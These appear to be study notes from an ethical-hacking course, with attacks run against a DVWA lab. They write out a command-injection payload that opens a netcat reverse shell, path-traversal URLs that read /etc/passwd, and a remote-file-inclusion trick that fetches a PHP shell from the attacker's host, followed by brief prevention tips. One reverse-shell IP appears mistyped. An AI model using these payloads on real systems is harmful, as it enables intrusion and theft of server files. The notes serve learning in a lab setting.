  Lets consider a ping search bar in a website. If we type a shell command(pwd) along with ping seperated by ';', and if the commands run, then there is code execution vulnerability
 
* Code execution commands to get reverse connection from target computer are attached in the ==code-exec-reverse : file==. It contains the commands in different programming languages. We are going to use 'Netcat'.
* To listen to the connection in kali
 
          nc -vv -l -p 8080
* Now connect from the web server to our kali by typing this in search bar(from the earlier file)

          nc -e /bin/sh 10.20.14 8080
* Now we have full access to the server

### Local File Inclusion Vulnerabilities
* Allows an attacker to read any file on the same server
* Access files outside www directory
* We are going to exploit this vulnerability ==through url==
* When we click on 'File inclusion' in 'DVWA', the url will be '10.20.14.204/dvwa/vulnerabilities/fi/?page=include.php'. So it is trying to open a page 'include.php' using 'page parameter'.
* Let's say we want to open /etc/passwd file in the device. We are currently at page /var/www/dvwa/vulnerabilities/fi/include.php. So we have to type the URL ==10.20.14.204/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd==.
* This way we get output of the passwd file and we will get more info about the website we want to hack.

### Remote File Inclusion vulnerability
* Similar to local file inclusion
* But allows an attacker to read any file from any server
* ==Execute== php files from other servers on the current server
* Store php files on other servers as .txt
* To demonstrate this, we have to turn 'allow_url_fopen' and 'allow_url_include' on in the metasploitable device , ==then we will be able to include any file into the target website==
* The step is similar to file inclusion vulnerabilities. In the 'page parameter', we will give the url to a page in a different server. This file will help us to establish a reverse connection.
* For this, we need to have a server with real ip. We are using the kali local server.
* We will upload a php file with a function called 'passthrough' and include the  netcat command we used before. Remember to give the extension of the file as .txt, otherwise, a reverse conn will be established from our local server.
* Now in the target url type ==10.20.14.204/dvwa/vulnerabilities/fi/?page=http://10.20.14.103/reverse.txt?==. We included ==?== at the end to run the .txt file as .php
* This will give a remote connection. Now listen it in kali using the method mentioned in the first vulnerability.

### ==Preventing the above vulnerabilities==
* File Upload Vulns - Only allow safe file to be uploaded
    * Check if the format of the uploaded file matches with that are allowed

* Code Exec Vulns:
    * Don't use dangerous function
    * Filter use input before execution. For eg:- if user gives an ip to ping, check using nginx that the input is just an ip and not shell commands.
